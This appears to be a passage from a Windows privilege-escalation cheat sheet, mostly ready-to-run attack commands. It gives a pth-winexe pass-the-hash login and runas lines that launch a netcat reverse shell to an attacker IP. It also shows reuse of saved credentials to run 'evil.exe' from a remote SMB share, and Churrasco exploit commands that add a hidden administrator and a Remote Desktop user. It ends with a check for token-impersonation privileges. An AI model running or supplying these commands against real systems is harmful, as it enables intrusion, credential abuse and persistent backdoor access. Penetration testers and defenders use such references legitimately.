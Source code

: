 ### Pth-WinExe

```
pth-winexe -U user%pass --runas=user%pass //10.1.1.1 cmd.exe
```

### RunAs.exe

Using runas with a provided set of credential
```
C:\Windows\System32\runas.exe /env /noprofile /user:Test "c:\users\public\nc.exe -nc 192.168.1.10 4444 -e cmd.exe"
```
```
C:\Windows\System32\runas.exe /env /noprofile /user:<username> <password> "c:\users\Public\nc.exe -nc <attacker-ip> 4444 -e cmd.exe"
```

You can use `runas` with the `/savecred` options in order to use the saved credentials. The following example is calling a remote binary via an SMB share:
```
runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"
```

#### Powershell

```
net use x: \\localhost\c$ /user:administrator PASSWORD
```

## Abusing Token Privileges

### Windows Server 2003 and IIS 6.0

https://www.exploit-db.com/exploits/6705/

https://github.com/Re4son/Churrasco

```
 c:\Inetpub>churrasco
 churrasco
 /churrasco/-->Usage: Churrasco.exe [-d] "command to run"

 c:\Inetpub>churrasco -d "net user /add <username> <password>"
 c:\Inetpub>churrasco -d "net localgroup administrators <username> /add"
 c:\Inetpub>churrasco -d "NET LOCALGROUP "Remote Desktop Users" <username> /ADD"
```

### Rotten Potato

```
whoami /priv
```

If we have `SeImpersonatePrivilege`, `SeImpersonate` or `SeAssignPrimaryToken` privileges, we can make a token impersonation.
